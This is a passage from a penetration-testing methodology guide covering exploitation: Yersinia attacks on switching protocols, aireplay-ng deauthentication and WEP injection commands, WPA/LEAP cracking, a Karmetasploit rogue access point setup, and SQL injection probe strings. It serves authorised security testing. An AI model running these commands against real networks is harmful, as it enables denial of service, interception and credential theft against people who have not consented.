protocol differs from many others in use as it combines Layer 2 and
Layer 3 resilience - effectively doing the jobs of both Spanning tree
protocol and the Virtual Router Redundancy Protocol at the same time.
Whilst the restrictions on the physical topologies able to make use of
VSRP mean that it is less flexible than STP and VRRP it does
significantly improve on the failover times provided by either of those
protocols.

Dynamic Trunking Protocol (DTP)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The Dynamic Trunking Protocol (DTP) is a proprietary networking protocol
developed by Cisco Systems for the purpose of negotiating trunking on a
link between two VLAN-aware switches, and for negotiating the type of
trunking encapsulation to be used. It works on the Layer 2 of the OSI
model. VLAN trunks formed using DTP may utilize either IEEE 802.1Q or
Cisco ISL trunking protocols.

DTP should not be confused with VTP, as they serve different purposes.
VTP communicates VLAN existence information between switches. DTP aids
with trunk port establishment. Neither protocol transmits the data
frames that trunks carry. The tool for attacking DTP is Yersinia.

`Screenshot Here <:File:Penetration_Testing_Execution_142.png>`__

Spanning Tree Protocol (STP)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The Spanning Tree Protocol (STP) is a network protocol that ensures a
loop-free topology for any bridged Ethernet local area network. The
basic function of STP is to prevent bridge loops and ensuing broadcast
radiation. Spanning tree also allows a network design to include spare
(redundant) links to provide automatic backup paths if an active link
fails, without the danger of bridge loops, or the need for manual
enabling/disabling of these backup links.

STP is a Data Link Layer protocol. It is standardized as IEEE 802.1D. As
the name suggests, it creates a spanning tree within a mesh network of
connected layer-2 bridges (typically Ethernet switches), and disables
those links that are not part of the spanning tree, leaving a single
active path between any two network nodes. The tool for attacking STP is
Yersinia.

`Screenshot Here <:File:Penetration_Testing_Execution_143.png>`__

Open Shortest Path First (OSPF)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Open Shortest Path First (OSPF) is an adaptive routing protocol for
Internet Protocol (IP) networks. It uses a link state routing algorithm
and falls into the group of interior routing protocols, operating within
a single autonomous system (AS). It is defined as OSPF Version 2 in RFC
2328 (1998) for IPv4. The updates for IPv6 are specified as OSPF Version
3 in RFC 5340 (2008).

RIP
^^^

RIP is a dynamic routing protocol used in local and wide area networks.
As such it is classified as an interior gateway protocol (IGP). It uses
the distance-vector routing algorithm. It was first defined in RFC 1058
(1988). The protocol has since been extended several times, resulting in
RIP Version 2 (RFC 2453). Both versions are still in use today, although
they are considered to have been made technically obsolete by more
advanced techniques such as Open Shortest Path First (OSPF) and the OSI
protocol IS-IS. RIP has also been adapted for use in IPv6 networks, a
standard known as RIPng (RIP next generation) protocol, published in RFC
2080 (1997).

VLAN Hopping
^^^^^^^^^^^^

VLAN hopping (virtual local area network hopping) is a computer security
exploit, a method of attacking networked resources on a VLAN. The basic
concept behind all VLAN hopping attacks is for an attacking host on a
VLAN to gain access to traffic on other VLANs that would normally not be
accessible. There are two primary methods of VLAN hopping: switch
spoofing and double tagging.

In a switch spoofing attack, an attacking host that is capable of
speaking the tagging and trunking protocols used in maintaining a VLAN
imitates a trunking switch. Traffic for multiple VLANs is then
accessible to the attacking host.

In a double tagging attack, an attacking host prepends two VLAN tags to
packets that it transmits. The first header (which corresponds to the
VLAN that the attacker is really a member of) is stripped off by a first
switch the packet encounters, and the packet is then forwarded. The
second, false, header is then visible to the second switch that the
packet encounters. This false VLAN header indicates that the packet is
destined for a host on a second, target VLAN. The packet is then sent to
the target host as though it were layer 2 traffic. By this method, the
attacking host can bypass layer 3 security measures that are used to
logically isolate hosts from one another. The tool for attacking 802.1q
is Yersinia.

`Screenshot Here <:File:Penetration_Testing_Execution_144.png>`__

VLAN Trunking Protocol (VTP)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

VLAN Trunking Protocol (VTP) is a Cisco proprietary Layer 2 messaging
protocol that manages the addition, deletion, and renaming of Virtual
Local Area Networks (VLAN) on a network-wide basis. Cisco's VLAN Trunk
Protocol reduces administration in a switched network. When a new VLAN
is configured on one VTP server, the VLAN is distributed through all
switches in the domain. This reduces the need to configure the same VLAN
everywhere. To do this, VTP carries VLAN information to all the switches
in a VTP domain. VTP advertisements can be sent over ISL, 802.1q, IEEE
802.10 and LANE trunks. VTP is available on most of the Cisco Catalyst
Family products. The tool for attacking VTP is Yersinia.

`Screenshot Here <:File:Penetration_Testing_Execution_145.png>`__

RF Access
~~~~~~~~~

The goal of the earlier phases is to gather every possible piece of
information about the Radio Frequencies in use that can be leveraged
during this phase.

Unencrypted Wireless LAN
^^^^^^^^^^^^^^^^^^^^^^^^

It is possible to actually connect to an unencrypted Wireless LAN
(WLAN). To connect to an unencrypted WLAN, you simply have to either
issue appropriate commands or use a GUI interface to connect.

Iwconfig (Linux)
''''''''''''''''

| The following commands to connect up to the ESSID. To ensure that the
  wireless interface is down, issue the following:

::

    ifconfig <nowiki><</nowiki>interface<nowiki>></nowiki> down

| Force dhclient to release any currently assigned DHCP addresses with
  the following command:

::

    dhclient -r <nowiki><</nowiki>interface<nowiki>></nowiki>

| Bring the interface back up with the following command:

::

    ifconfig <nowiki><</nowiki>interface<nowiki>></nowiki> up

Iwconfig is similar to ifconfig, but is dedicated to the wireless
interfaces. It is used to set the parameters of the network interface
which are specific to the wireless operation. To assign set the ESSID
(or Network Name to the wireless interface, use the following command:

::

    iwconfig <nowiki><</nowiki>interface<nowiki>></nowiki> essid "ESSID_IN_QUOTES"

Next we need to set the operating mode of the device, which depends on
the network topology. Setting this to *Managed* means that we are
connecting to a network that is composed of access points.

::

    iwconfig <nowiki><</nowiki>interface<nowiki>></nowiki> mode Managed

Use dhclient to obtain a DHCP addresses with the following command:

::

    dhclient <nowiki><</nowiki>interface<nowiki>></nowiki>

At this point we should receive an IP address and be connected to the
client's wireless network. Ensure that adequate screen shots are taken
to definitively indicate the ability to connect, receive an IP address,
and traverse the network.

Windows (XP/7)
''''''''''''''

Based upon the wireless network adapter installed, Windows will provide
you with a mechanism to connect to wireless networks. The version of
Windows utilized will dictate the process. For this reason we are
covering Windows XP and 7.

`Screenshot Here <:File:Penetration_Testing_Execution_146.png>`__

Windows XP will show an icon with a notification that says it has found
wireless networks.

`Screenshot Here <:File:Penetration_Testing_Execution_147.png>`__

Right-click the wireless network icon in the lower right corner of your
screen, and then click "View Available Wireless Networks."

`Screenshot Here <:File:Penetration_Testing_Execution_148.png>`__

The Wireless Network Connection window appears and displays your
wireless network listed with the SSID you chose. If you don't see your
network, click Refresh network list in the upper left corner. Click your
network, and then click Connect in the lower right corner.

Windows 7 offers the same ability to connect to wireless networks. On
the right side of the taskbar, you will see a wireless network icon like
the one below. Click on it.

`Screenshot Here <:File:Penetration_Testing_Execution_149.png>`__

A window with available network connections will open. As you can see
from the screenshot below, the list is split by the type of available
network connections. At the top you have
`dial-up <http://en.wikipedia.org/wiki/Dial-up>`__ and `virtual private
network (VPN) <http://en.wikipedia.org/wiki/VPN>`__ connections, while
at the bottom you have a list of all the wireless networks which Windows
7 has detected. To refresh the list of available networks, click on the
button highlighted in the screenshot below.

`Screenshot Here <:File:Penetration_Testing_Execution_150.png>`__

You can scroll down through the list of available networks. Once you
decided on which network to connect to, click on it. Next, click on the
*Connect* button.

`Screenshot Here <:File:Penetration_Testing_Execution_151.png>`__

If everything is OK, Windows 7 will connect to the network you selected
using the given security key.

Attacking the Access Point
^^^^^^^^^^^^^^^^^^^^^^^^^^

All identified access points are vulnerable to numerous attacks. For
completeness, we've included some attack methods that may not be a part
of all engagements. Ensure that the scoping is reviewed prior to
initiating any attacks.

Denial of Service (DoS)
'''''''''''''''''''''''

Within the standard, there are two packets that help in this regard, the
*Clear To Send (CTS)* and *Request To Send (RTS)* packets. Devices use
RTS packets when they have something big to send, and they don't want
other devices to step on their transmission. CTS packets are sent so
that the device knows it's okay to transmit. Every device (other than
the one that sent the RTS) within the range of the CTS packet cannot
transmit anything for the duration specified.

The first technique is to transmit the CTS packets, meaning that anyone
in range of your signal will be unable to transmit. This requires a
high-gain Omni-directional antenna to a much greater impact. The second
technique is to send an RTS packet to the AP you are targeting. Once the
AP gets the RTS packet, it will send the CTS. A highly directional
antenna from a distance can be used to target the AP with an RTS packet.
Generally speaking, transmitting the CTS has a greater impact.

Cracking Passwords
^^^^^^^^^^^^^^^^^^

WPA-PSK/ WPA2-PSK
'''''''''''''''''

WPA-PSK is vulnerable to brute force attack. Tools like Aircrack and
coWPAtty take advantage of this weakness and provided a way to test keys
against dictionaries. The problem is that it's a very slow process.
Precomputational attacks are limited as the BSSID and the BSSID length
are seeded into the passphrase hash. This is why WPA-PSK attacks are
generally limited due by time. There is no difference between cracking
WPA or WPA2, the authentication is essentially the same.

The main requirement for any WPA/WPA2 is to capture the authentication
handshake and then use Aircrack-ng to crack the pre-shared key. This can
be done either actively or passively. "Actively" means you will
accelerate the process by deauthenticating an existing wireless client.
"Passively" means you simply wait for a wireless client to authenticate
to the WPA/WPA2 network.

WPA/WPA2-Enterprise
'''''''''''''''''''

In environments with a large number of users, such as corporations or
universities, WPA/WPA2 pre-shared key management is not feasible. For
example, it wouldn't be possible to track which users are connected and
it would be impossible to revoke access to the network for individuals
without changing the key for everyone. Therefore WPA2 Enterprise
authenticates users against a user database (RADIUS). Two common methods
to do that are WPA2-EAP-TTLS and WPA2-PEAP.

Attacks
^^^^^^^

LEAP
''''

This stands for the Lightweight Extensible Authentication Protocol. This
protocol is based on 802.1X and helps minimize the original security
flaws by using WEP and a sophisticated key management system. This
EAP-version is safer than EAP-MD5. This also uses MAC address
authentication. LEAP is not safe against crackers. THC-LeapCracker can
be used to break Cisco's version of LEAP and be used against computers
connected to an access point in the form of a dictionary attack. Anwrap
and asleap are other crackers capable of breaking LEAP.

Asleap


Asleap is a designed specifically to recover weak LEAP (Cisco's
Lightweight Extensible Authentication Protocol) and PPTP passwords.
Asleap performs Weak LEAP and PPTP password recovery from pcap and
AiroPeek files or from live capture. Finally, it has the ability to
deauthenticate clients on a leap WLAN (speeding up leap password
recovery).

`Screenshot Here <:File:Penetration_Testing_Execution_152.png>`__

The first step involved in the use of asleap is to produce the necessary
database (.dat) and index files (.idx) using genkeys from the supplied
(-r) a dictionary (wordlist) file.

`Screenshot Here <:File:Penetration_Testing_Execution_153.png>`__

The final step in recovering the weak LEAP password is to run the asleap
command with our newly created .dat and .idx files:

`Screenshot Here <:File:Penetration_Testing_Execution_154.png>`__

802.1X
''''''

802.1X is an IEEE Standard for port-based Network Access Control (PNAC).
It is part of the IEEE 802.1 group of networking protocols. It provides
an authentication mechanism to devices wishing to attach to a LAN or
WLAN.

| IEEE 802.1X defines the encapsulation of the Extensible Authentication
  Protocol (EAP) over IEEE 802 which is known as "EAP over LAN" or
  EAPOL. There are two main attacks which can be used against 802.1X:

Key Distribution Attack


The key distribution attack exploits a weakness in the RADIUS protocol.
The key distribution attack relies on an attacker capturing the PMK
transmission between the RADIUS server and the AP. As the PMK is
transmitted outside of the TLS tunnel, its protection is solely reliant
on the RADIUS server's HMAC-MD5 hashing algorithm. Should an attacker be
able to leverage a man-in-the-middle attack between the AP and RADIUS
sever, a brute-force attempt could be made to crack the RADIUS shared
secret. This would ultimately provide the attacker with access to the
PMK - allowing full decryption of all traffic between the AP and
supplicant.

RADIUS Impersonation Attack


The RADIUS impersonation attack relies on users being left with the
decision to trust or reject certificates from the authenticator.
Attackers can exploit this deployment weakness by impersonating the
target network's AP service set identifier (SSID) and RADIUS server.
Once both the RADIUS server and AP have been impersonated the attacker
can issue a 'fake' certificate to the authenticating user. After the
certificate has been accepted by the user the client will proceed to
authenticate via the inner authentication mechanism. This allows the
attacker to capture the MSCHAPv2 challenge/response and attempt to crack
it offline.

PEAP
''''

The Protected Extensible Authentication Protocol (Protected EAP or PEAP)
is a protocol that encapsulates the Extensible Authentication Protocol
(EAP) within an encrypted and authenticated Transport Layer Security
(TLS) tunnel. The purpose was to correct deficiencies in EAP; EAP
assumed a protected communication channel, such as that provided by
physical security, so facilities for protection of the EAP conversation
were not provided.

RADIUS Impersonation Attack


The RADIUS impersonation attack relies on users being left with the
decision to trust or reject certificates from the authenticator.
Attackers can exploit this deployment weakness by impersonating the
target network's AP service set identifier (SSID) and RADIUS server.
Once both the RADIUS server and AP have been impersonated the attacker
can issue a 'fake' certificate to the authenticating user. After the
certificate has been accepted by the user the client will proceed to
authenticate via the inner authentication mechanism. This allows the
attacker to capture the MSCHAPv2 challenge/response and attempt to crack
it offline.

Authentication Attack


| The PEAP authentication attack is a primitive means of gaining
  unauthorized access to PEAP networks. By sniffing usernames from the
  initial (unprotected) PEAP identity exchange an attacker can attempt
  to authenticate to the target network by 'guessing' user passwords.
  This attack is often ineffective as the authenticator will silently
  ignores bad login attempts ensuring a several second delay exists
  between login attempts.

EAP-Fast
''''''''

EAP-FAST (Flexible Authentication via Secure Tunneling) is Cisco's
replacement for LEAP. The protocol was designed to address the
weaknesses of LEAP while preserving the "lightweight" implementation.
EAP-FAST uses a Protected Access Credential (PAC) to establish a TLS
tunnel in which client credentials are verified. EAP-FAST provides
better protection against dictionary attacks, but is vulnerable to MITM
attacks. Since many implementations of EAP-FAST leave anonymous
provisioning enabled, AP impersonation can reveal weak credential
exchanges.

WEP/WPA/WPA2
''''''''''''

The core process of connecting to a WEP encrypted network revolves
around obtaining the WEP key for the purpose of connecting to the
network. There are several tools that can be used to perform attacks
against WEP.

Aircrack-ng
'''''''''''

Aircrack-ng is an 802.11 WEP and WPA-PSK keys cracking program that can
recover keys once enough data packets have been captured. It implements
the standard FMS attack along with some optimizations like KoreK
attacks, as well as the all-new PTW attack, thus making the attack much
faster compared to other WEP cracking tools.

The first step is to place the wireless interface in monitor mode by
entering:

::

    airmon-ng start wlan0

**Airmon-ng**

Airmon-ng is used to enable monitor mode on wireless interfaces. It may
also be used to go back from monitor mode to managed mode. Entering the
airmon-ng command without parameters will show the interfaces status.

To start wlan0 in monitor mode:

::

    airmon-ng start wlan0

To start wlan0 in monitor mode on channel 8:

::

    airmon-ng start wlan0 8

To stop wlan0:

::

    airmon-ng stop wlan0

To check the status:

::

    airmon-ng

`Screenshot Here <:File:Penetration_Testing_Execution_155.png>`__

Enter "iwconfig" to validate the wireless interfaces. The output should
look similar to:

`Screenshot Here <:File:Penetration_Testing_Execution_156.png>`__

**Airodump-ng**

Airodump-ng is used for packet capturing of raw 802.11 frames and is
particularly suitable for collecting WEP IVs (Initialization Vector) for
the intent of using them with Aircrack-ng. If you have a GPS receiver
connected to the computer, Airodump-ng is capable of logging the
coordinates of the found access points.

Usage:

::

    airodump-ng <nowiki><</nowiki>options<nowiki>></nowiki> <nowiki><</nowiki>interface<nowiki>>[</nowiki>,<nowiki><</nowiki>interface<nowiki>></nowiki>,...<nowiki>]</nowiki>

    Options:

    --ivs               : Save only captured IVs

    --gpsd              : Use GPSd

    --write    <nowiki><</nowiki>prefix<nowiki>></nowiki> : Dump file prefix

    -w                  : same as --write

    --beacons           : Record all beacons in dump file

    --update     <nowiki><</nowiki>secs<nowiki>></nowiki> : Display update delay in seconds

    --showack           : Prints ack/cts/rts statistics

    -h                  : Hides known stations for --showack

    -f          <nowiki><</nowiki>msecs<nowiki>></nowiki> : Time in ms between hopping channels

    --berlin     <nowiki><</nowiki>secs<nowiki>></nowiki> : Time before removing the AP/client

    from the screen when no more packets

    are received (Default: 120 seconds)

    -r           <nowiki><</nowiki>file<nowiki>></nowiki> : Read packets from that file

    -x          <nowiki><</nowiki>msecs<nowiki>></nowiki> : Active Scanning Simulation

    --output-format

    <nowiki><</nowiki>formats<nowiki>></nowiki> : Output format. Possible values:

    pcap, ivs, csv, gps, kismet, netxml

    Short format "-o"

    The option can be specified multiple   times.  In this case, each file format specified will be output.  Only ivs or pcap can be used, not both.

`Screenshot Here <:File:Penetration_Testing_Execution_157.png>`__

`Screenshot Here <:File:Penetration_Testing_Execution_158.png>`__

**Aireplay-ng**

Aireplay-ng is primarily used to generate or accelerate traffic for the
later use with Aircrack-ng (for cracking WEP keys). Aireplay-ng supports
various attacks such as deauthentication, fake authentication,
Interactive packet replay, hand-crafted ARP request injection and
ARP-request re injection. Usage:

::

    aireplay-ng <nowiki><</nowiki>options<nowiki>></nowiki> <nowiki><</nowiki>replay interface<nowiki>></nowiki>

These are the attack names and their corresponding "numbers":

-  '''Attack 0: '''Deauthentication
-  '''Attack 1: '''Fake authentication
-  '''Attack 2: '''Interactive packet replay
-  '''Attack 3: '''ARP request replay attack
-  '''Attack 4: '''KoreK chopchop attack
-  '''Attack 5: '''Fragmentation attack
-  '''Attack 9: '''Injection test

Note: Not all options apply to all attacks.

**Attack 0 - Deauthentication**

| A deauthentication attack sends disassociation packets to one or more
  clients who are currently associated with an AP. Disassociating
  clients can reveal a hidden / cloaked ESSID. Deauthentication attacks
  also provide an ability to capture WPA/WPA2 handshakes by forcing
  clients to re-authenticate.

::

    aireplay-ng -0 1 -a 34:EF:44:BB:14:C1 -c 00:E0:4C:6D:27:8D wlan0

-  -0 means deauthentication
-  1 is the number of deauths to send (you can send multiple if you
   wish); 0 means send them continuously
-  -a 34:EF:44:BB:14:C1 is the MAC address of the access point
-  -c 00:E0:4C:6D:27:8D is the MAC address of the client to
   deauthenticate; if this is omitted then all clients are
   deauthenticated
-  wlan0 is the interface name

`Screenshot Here <:File:Penetration_Testing_Execution_159.png>`__

**Attack 1 - Fake authentication**

The fake authentication attack allows you to perform the two types of
WEP authentication (Open System and Shared Key) and to associate with an
AP. This attack is useful in scenarios where there are no associated
clients. Note that fake authentication attacks do not generate ARP
packets.

::

    aireplay-ng -1 0 -e 2WIRE696 -a 34:EF:44:BB:14:C1 -h 00:E0:4C:6D:27:8D wlan0

-  -1 means fake authentication
-  0 reassociation timing in seconds
-  -e 2WIRE696 is the wireless network name
-  -a 34:EF:44:BB:14:C1 is the access point MAC address
-  -h 00:E0:4C:6D:27:8D is our card MAC address
-  wlan0 is the wireless interface name

`Screenshot Here <:File:Penetration_Testing_Execution_160.png>`__

**Attack 3 - ARP Request Replay Attack**

The classic ARP request replay attack is the most effective way to
generate new initialization vectors. This attack is probably the most
reliable of all. The program listens for an ARP packet then retransmits
it back to the AP. This, in turn causes the AP to repeat the ARP packet
with a new IV. The program retransmits the same ARP packet over and
over. However, each ARP packet repeated by the AP has a new IV. The
collection of these IVs will later help us later in determining the WEP
key.

::

    aireplay-ng -3 -b 34:EF:44:BB:14:C1 -h 00:E0:4C:6D:27:8D wlan0

-  -3 means standard arp request replay
-  -b 34:EF:44:BB:14:C1 is the access point MAC address
-  -h 00:E0:4C:6D:27:8D is the source MAC address (either an associated
   client or from fake authentication)
-  wlan0 is the wireless interface name

**Attack 4 - KoreK chopchop**

The KoreK chopchop attack can decrypt a WEP data packet without knowing
the key. It can even work against dynamic WEP. *This attack does not
recover the WEP key itself, it merely reveals the plaintext*. Some APs
are not vulnerable to this attack. They may seem vulnerable at first but
actually drop data packets shorter than 60 bytes. If the AP drops
packets shorter than 42 bytes, Aireplay tries to guess the rest of the
missing data, as far as the headers are predictable. If an IP packet is
captured Aireplay checks if the checksum of the header is correct after
guessing its missing parts. Remember that this attack requires at least
one WEP data packet.

::

    aireplay-ng -4 -b 34:EF:44:BB:14:C1 -h 00:E0:4C:6D:27:8D wlan0

-  -4 means the chopchop attack
-  -b 34:EF:44:BB:14:C1 is the access point MAC address
-  -h 00:E0:4C:6D:27:8D is the source MAC address (either an associated
   client or from fake authentication)
-  wlan0 is the wireless interface name

**Attack 5 - Fragmentation Attack**

The fragmentation attack does not recover the WEP key itself, but (also)
obtains the PRGA (pseudo random generation algorithm) of the packet. The
PRGA can then be used to generate packets with Packetforge-ng which are
in turn are used for various injection attacks. The attack requires at
least one data packet to be received from the AP in order to initiate
the attack. Basically, the program obtains a small amount of keying
material from the packet then attempts to send ARP and/or LLC packets
with known content to the AP. If the packet is successfully echoed back
by the AP then a larger amount of keying information can be obtained
from the returned packet. This cycle is repeated several times until
1500 bytes of PRGA are obtained (sometimes less than 1500 bytes).

::

    aireplay-ng -5 -b 34:EF:44:BB:14:C1 -h 00:E0:4C:6D:27:8D wlan0

-  -5 means run the fragmentation attack
-  -b 34:EF:44:BB:14:C1 is the access point MAC address
-  -h 00:E0:4C:6D:27:8D is the source MAC address (either an associated
   client or from fake authentication)
-  wlan0 is the wireless interface name

**Attack 9: Injection test**

The injection test determines if your card can successfully inject
wireless packets, and measures ping response times to APs. If you have
two wireless cards connected, the test can also determine which specific
injection attacks can be successfully executed. The basic injection test
lists the APs in the area which respond to broadcast probes, and for
each it performs a 30 packet test which measures the connection quality.
This connection quality quantifies the ability of your card to
successfully send and receive a response to the test target. The
percentage of responses received gives a good indication of the link
quality.

::

    aireplay-ng -9 wlan0

Where:

-  -9 - Injection test.
-  wlan0 - the interface name

`Screenshot Here <:File:Penetration_Testing_Execution_161.png>`__

**Aircrack-ng**

Aircrack-ng is an 802.11 WEP and WPA/WPA2-PSK key cracking program.
Aircrack-ng can recover the WEP key once enough encrypted packets have
been captured with airodump-ng. This part of the Aircrack-ng suite
determines the WEP key using two fundamental methods. The first method
is via the PTW approach (Pyshkin, Tews, and Weinmann). The default
cracking method is PTW.

For cracking WPA/WPA2 pre-shared keys, only a dictionary method is used.
SSE2 support is included to dramatically speed up WPA/WPA2 key
processing. A "four-way handshake" is required as input. For WPA
handshakes, a full handshake is composed of four packets. However,
Aircrack-ng is able to work successfully with just 2 packets. EAPOL
packets (2 and 3) or packets (3 and 4) are considered a full handshake.

Attacking the User
~~~~~~~~~~~~~~~~~~

The Rules of Engagment (ROE) should be validated to ensure this is
in-scope before conducting any attacks against the users

Karmetasploit Attacks
^^^^^^^^^^^^^^^^^^^^^

Karmetasploit is a modification of the KARMA to integrate it into
Metasploit. Karmetasploit creates a working "evil" access point working
that provides network services to an unsuspecting user. The services
Karmetasploit provides include a DNS daemon that responds to all
requests, a POP3 service, an IMAP4 service, a SMTP service, a FTP
service, a couple of different SMB services, and a web service. All DNS
lookups result in the IP address of the access point being returned,
resulting in a blackhole effect for all email, web, and other network
traffic.

To run Karmetasploit, use aireplay-ng to verify that injection is
functioning:

::

    # aireplay-ng --test [monitor-interface]

The output of aireplay-ng should indicate that injection is working and
that one of the local access points could be reached. If every access
point returns 0% and the message indicating injection is working is not
there, you likely need to use a different/patched driver or a different
wireless card.

The Metasploit Framework does not have a DHCP module, so a third-party
DHCP service must be configured and installed. The easiest way to
accomplish this is by installed the "dhcpd" package. On Backtrack 4 R2,
the package is called "dhcpd3"or on Backtrack 5, the package is called
"dhcp3-server".

::

    apt-get install dhcp3-server

Once the DHCP server has been installed, an appropriate configuration
file needs to be created. This file is normally called "dhcpd.conf" or
"dhcpd3.conf" and resides in /etc, /etc/dhcp, or /etc/dhcp3. The example
below uses the 10.0.0.0/24 network with the access point configured at
10.0.0.1.

::

    default-lease-time 60;
    max-lease-time 72;

    ddns-update-style none;

    authoritative;

    log-facility local7;

    subnet 10.0.0.0 netmask 255.255.255.0 {
      range 10.0.0.100 10.0.0.254;
      option routers 10.0.0.1;
      option domain-name-servers 10.0.0.1;
    }

To run Karmetasploit, there are three things that need to happen. First,
airbase-ng must be started and configured as a greedy wireless access
point. The following example will beacon the ESSID of the target
company, respond to all probe requests, and rebroadcast all probes as
beacons for 30 seconds:

::

    airbase-ng -P -C 30 -e "<COMPANY ESSID>" -v [monitor-interface]

Second, we need to configure the IP address of the at0 interface to
match.

::

    ifconfig at0 up 10.0.0.1 netmask 255.255.255.0

Third, the DHCP server needs to be started on the "at0" TUN/TAP
interface created by airbase-ng:

::

    dhcpd -cf /etc/dhcpd.conf at0

Finally, the Metasploit Framework itself needs to be configured. While
its possible to configure each service by hand, its more efficient to
use a resource file with the msfconsole interface. A sample resource
file, configured to use 10.0.0.1 as the access point address, with
nearly every feature enabled, can be downloaded here
`2 <http://digitaloffense.net/tools/karma.rc>`__. To use this resource
file, run msfconsole with the -r parameter. Keep in mind that msfconsole
must be run as root for the capture services to function.

::

    msfconsole -r karma.rc

Once the Metasploit Framework processes the commands in the resource
file, the standard msfconsole shell will be available for commands. As
clients connect to the access point and try to access the network, the
service modules will do what they can to extract information from the
client and exploit browser vulnerabilities.

DNS Requests
^^^^^^^^^^^^

<Contribution Needed>

Bluetooth
^^^^^^^^^

<Contribution Needed>

Personalized Rogue AP
^^^^^^^^^^^^^^^^^^^^^

<Contribution Needed>

-  DoS / Blackmail angle

Web
^^^

A web application involves a web server that accepts input and is most
often interfaced using http(s). The penetration tester’s goal is to
discover any interaction points that can be manipulated to access
information, functionality or services beyond the web applications
intended use. Quite often a web application will comprise of tiers. The
tiers are generally broken up into web, application, and data. These
tiers can run on one or more servers, and any of the tiers may be load
balanced across multiple servers. In the quest to find all the entry
points, during the intelligence gathering and vulnerability analysis
phase the penetration tester will utilize mostly GET and POST requests
but should also test head, put, delete, trace, options, connect and
patch. The objective is to map all input and output points. These are
not limited to simply forms on a page, but include cookies, links,
hidden forms, http parameters, etc. During the exploration particular
attention should be given to sessions, cookies, error pages, http status
codes, indirectly accessible pages, encryption usage and server
configuration, dns and proxy cache usage. Ideally, this will be done
using both automated and manual methods to discover potential ways to
manipulate the web application parameters or logic. This is generally
done using some form of client application (browser) and a proxy that
can sit between the client application and the web application, and a
tool to crawl (aka spider) through page links.

SQL Injection (SQLi)
''''''''''''''''''''

According to OWASP (https://www.owasp.org/index.php/SQL\_Injection) SQL
Injection, or as it is more commonly known SQLi, consists of insertion
or "injection" of a SQL query via the input data from the client to the
application. A successful SQL injection exploit can read sensitive data
from the database, modify database data (Insert/Update/Delete), execute
administration operations on the database (such as shutdown the DBMS),
recover the content of a given file present on the DBMS file system and
in some cases issue commands to the operating system. SQL injection
attacks are a type of injection attack, in which SQL commands are
injected into data-plane input in order to effect the execution of
predefined SQL commands.

SQL (Structured Query Language) is an interpretted programming language
for interfacing with a database. It is sometimes also lazily used to
refer to the database management system. Applications utilize a database
to store/retrieve and process information. The database is usually a
relational database, where data is stored in one more tables, each table
has values in one or more columns (data types/attributes) and rows
(element/tuple). There are several implementations of SQL and each has
their own commands and syntax. A few common commands are: select -
retrieve data union - combine results of two or more selects insert -
add new data update - modify existing data delete - delete data

What is injection? Simply stated, SQL injection exploits a vulnerability
that allows data sent to an application to be interpreted and run as SQL
commands.

According to OWASP (https://www.owasp.org/index.php/SQL\_Injection) SQL
Injection, also known as SQLi, consists of insertion or "injection" of a
SQL query via the input data from the client to the application.

A successful SQL injection exploit can read sensitive data from the
database, modify database data (Insert/Update/Delete), execute
administration operations on the database (such as shutdown the DBMS),
recover the content of a given file present on the DBMS file system and
in some cases issue commands to the operating system. SQL injection
attacks are a type of injection attack, in which SQL commands are
injected into data-plane input in order to effect the execution of
predefined SQL commands. SQL injection is typically discovered in the
Vulnerability Analysis phase (and maybe hinted at in the intelligence
gathering phase) of the engagement.

One possible way to test for sql injection is to enter a ' into input
fields then compare the application response to a well formed request.
If the web application is vulnerable to SQLi, a ' may return different
results when the SQL statement attempts to execute. Was an error message
returned, different results, web page a different size, are different
HTTP codes returned. Don't forget to look at the source, not just what
is displayed in the browser. Depending on the reaction, it may be
necessary to use other tests for injection, for example " or '; or ) or
'+"=' or %27%20or%201=1. It may also be necessary to encode the
characters to bypass filters. If the access to the source code of the
application is available, review for any variables where input can be
manipulated as part of the application usage. In some cases this will be
readily apparent, for instance php $sql = "SELECT \* from [table] WHERE
tuple = '$\_GET("input"]'"; c# $sql = "SELECT \* from [table] WHERE
tuple = '" + request.getParameter("input") = "'";

Several tools are available for the identification and exploitation of
SQLi

Several tools are available for the identification and exploitation of
SQLi. SQLi Tools

-  Havij (http://itsecteam.com/en/projects/project1.htm)
-  SQLmap (http://sqlmap.sourceforge.net)
-  The Mole (http://sourceforge.net/projects/themole)
-  Pangolin (http://nosec.org/en/productservice/pangolin)

XSS
'''

<Contribution Needed>

CSRF
''''

<Contribution Needed>

Ad-Hoc Networks
^^^^^^^^^^^^^^^

<Contribution Needed>

-  Information Leakage

Detection bypass
^^^^^^^^^^^^^^^^

<Contribution Needed>

-  FW/WAF/IDS/IPS Evasion
-  Human Evasion
-  DLP Evasion

Resistance of Controls to attacks
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

<Contribution Needed>

Type of Attack
^^^^^^^^^^^^^^

<Contribution Needed>

-  Client Side
-  Phishing (w/pretext)
-  Service Side
-  Out of band
-  Post-Exploitation
-  Infrastructure analysis

The Social-Engineer Toolkit
^^^^^^^^^^^^^^^^^^^^^^^^^^^

The Social-Engineering Toolkit (SET) is a python-driven suite of custom
tools which solely focuses on attacking the human element of pentesting.
It’s main purpose is to augment and simulate social-engineering attacks
and allow the tester to effectively test how a targeted attack may
succeed. Currently SET has two main methods of attack, one is utilizing
Metasploit payloads and Java-based attacks by setting up a malicious
website (which you can clone whatever one you want) that ultimately
delivers your payload. The second method is through file-format bugs and
e-mail phishing. The second method supports your own open-mail relay, a
customized sendmail open-relay, or Gmail integration to deliver your
payloads through e-mail. The goal of SET is to bring awareness to the
often forgotten attack vector of social-engineering. You can see
detailed `tutorials here <http://www.secmaniac.com/tutorials/>`__ or by
downloading the `user manual
here <http://svn.secmaniac.com/social_engineering_toolkit/readme/User_Manual.pdf>`__.

VPN detection
~~~~~~~~~~~~~

VPN Hunter (http://www.vpnhunter.com) discovers and classifies SSL VPNs
from top vendors including Juniper, Cisco, Palo Alto, Citrix, Fortinet,
F5, SonicWALL, Barracuda, Microsoft, and Array. VPN Hunter will also
attempt to detect whether two-factor authentication is enabled on the
target SSL VPNs.

Route detection, including static routes
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

<Contribution Needed>

Network Protocols in use
^^^^^^^^^^^^^^^^^^^^^^^^

<Contribution Needed>

Proxies in use
^^^^^^^^^^^^^^

<Contribution Needed>

-  Network Level
-  Application Level

Network layout
^^^^^^^^^^^^^^

<Contribution Needed>

